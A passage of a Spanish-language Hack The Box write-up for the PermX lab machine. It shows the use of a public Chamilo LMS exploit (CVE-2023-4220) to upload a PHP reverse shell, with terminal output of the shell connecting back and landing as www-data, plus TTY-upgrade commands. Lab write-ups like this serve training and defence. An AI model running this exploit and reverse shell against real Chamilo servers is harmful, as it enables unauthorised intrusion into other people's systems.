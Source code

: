 Y encontramos lms y www, habrá que añadirlo a /etc/hosts.

![image](https://github.com/user-attachments/assets/cc1a6b8f-8015-4285-aa83-163978e60a1c)

Nos aparece la siguiente página con un panel de login.

Investigando un poco, podemos encontrar una vulnerabilidad de chamilo:

![image](https://github.com/user-attachments/assets/8e570b1f-2f0e-47ce-a5bb-046118f5ae13)


Podemos descargar el exploit que es muy sencillo de utilizar y vemos que el resultado es instantáneo:

```bash
┌──(mili㉿kali)-[~/Desktop/HTB/PermX]
└─$ ./CVE-2023-4220.sh 
-e 
All options -f, -h, and -p are required.
-e 
Usage: ./CVE-2023-4220.sh -f reverse_file -h host_link -p port_in_the_reverse_file
-e 
Options:
  -f    Path to the reverse file
  -h    Host link where the file will be uploaded
  -p    Port for the reverse shell
                                                                                                                                                                                             
┌──(mili㉿kali)-[~/Desktop/HTB/PermX]
└─$ ./CVE-2023-4220.sh -f revshell.php -h http://lms.permx.htb -p 4444
-e 
The file has successfully been uploaded.

-e #    Use This leter For Interactive TTY ;)  
#    python3 -c 'import pty;pty.spawn("/bin/bash")'
#    export TERM=xterm
#    CTRL + Z
#    stty raw -echo; fg
-e 
# Starting Reverse Shell On Port 4444 . . . . . . .
-e 
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.23] 37402
Linux permx 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 22:22:30 up 51 min,  0 users,  load average: 0.02, 0.07, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```
